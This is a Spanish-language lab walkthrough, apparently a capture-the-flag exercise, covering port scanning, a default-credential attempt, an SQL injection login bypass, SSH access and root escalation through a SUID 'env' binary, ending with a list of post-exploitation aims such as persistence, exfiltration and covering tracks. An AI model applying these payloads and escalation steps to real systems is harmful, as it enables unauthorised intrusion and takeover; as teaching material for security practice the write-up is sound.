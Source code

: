 # Informe de Enumeración y Escalada de Privilegios

## 1. Comprobar Conexión

```bash
ping 172.17.0.2
```

---

## 2. Escaneo de Puertos Abiertos

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

| Opción           | Descripción                                             |
|------------------|---------------------------------------------------------|
| `-p-`            | Escanea todos los puertos TCP (1-65535).                |
| `--open`         | Muestra solo los puertos abiertos.                      |
| `-sS`            | Escaneo SYN (stealth), más discreto.                   |
| `--min-rate 5000`| Envía al menos 5000 paquetes por segundo.              |
| `-vvv`           | Muestra detalles extensos del escaneo.                 |
| `-n`             | No resuelve nombres DNS (más rápido).                  |
| `-Pn`            | Omite el ping inicial (útil si ICMP está bloqueado).   |

✅ **Puertos abiertos**: 22 (SSH) y 80 (HTTP)

---

## 3. Detección de Versiones de Servicios

```bash
nmap -p22,80 -sCV 172.17.0.2
```

| Opción  | Descripción                                                   |
|---------|---------------------------------------------------------------|
| `-p22,80` | Escanea puertos específicos (SSH y HTTP).                    |
| `-sC`   | Ejecuta scripts por defecto (detección de servicios, banners).|
| `-sV`   | Intenta identificar versiones de los servicios.               |

**Resultados:**

- `22/tcp open ssh` → OpenSSH 8.9p1 Ubuntu 3ubuntu0.6  
- `80/tcp open http` → Apache httpd 2.4.52 (Ubuntu)

---

## 4. Prueba de Credenciales Comunes

```
admin:admin  
user:password  
root:root  
root:toor  
```

❌ **Ninguna credencial fue válida.**

---

## 5. Prueba de Inyección SQL

Al ingresar `' OR '1'='1` en el formulario de login, se accedió al sistema.

✅ **Acceso exitoso. Se obtuvieron credenciales:**

```
Usuario: Dylan  
Contraseña: KJSDFG789FGSDF78  
```

---

## 6. Acceso SSH

> **Importante**: el nombre de usuario debe ir en minúsculas.

```bash
ssh dylan@172.17.0.2
```

✅ **Acceso SSH exitoso.**

---

## 7. Búsqueda de Archivos con Permisos SUID

```bash
find / -perm -4000 -type f 2>/dev/null
```

| Opción         | Descripción                                       |
|----------------|---------------------------------------------------|
| `/`            | Búsqueda desde la raíz del sistema.               |
| `-perm -4000`  | Busca archivos con el bit SUID activado.          |
| `-type f`      | Solo archivos.                                    |
| `2>/dev/null`  | Suprime mensajes de error.                        |

**Resultados relevantes:**

```bash
/usr/bin/env
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
...
```

🔍 Archivos como `/usr/bin/env` pueden ser aprovechados para escalar privilegios.

| Binario                                | Riesgo / Uso potencial                        | ¿Explotable? |
|----------------------------------------|-----------------------------------------------|--------------|
| `/usr/bin/passwd`                      | Cambia contraseñas.                           | 🔒 No         |
| `/usr/bin/chsh`, `/usr/bin/chfn`      | Cambia shell o info del usuario.              | 🔒 No         |
| `/usr/bin/su`                          | Requiere contraseña.                          | 🔒 No         |
| `/usr/bin/env`                         | Ejecuta comandos con entorno limpio.          | ✅ ¡Sí!       |

---

## 8. Escalada de Privilegios con `env`

```bash
/usr/bin/env /bin/sh -p
```

| Parte            | Explicación                                               |
|------------------|-----------------------------------------------------------|
| `/usr/bin/env`   | Ejecuta un programa con un entorno controlado.           |
| `/bin/sh`        | Shell estándar.                                          |
| `-p`             | Conserva los privilegios del ejecutable SUID.            |

✅ **Se obtiene una shell como root.**

---

## 9. Post-explotación

Una vez con acceso como root, se pueden realizar las siguientes acciones:

- ✅ Mantener el acceso (persistencia)  
- 👤 Crear un usuario oculto  
- 🔐 Añadir una clave pública SSH  
- 📦 Exfiltración de información  
- 🌐 Exploración de la red interna  
- 🔀 Pivoting hacia otras máquinas  
- 🧹 Eliminación de huellas  
- 💣 Destrucción del sistema (opcional y maliciosa)
```

¿Te gustaría que también lo exporte como archivo `.md`?
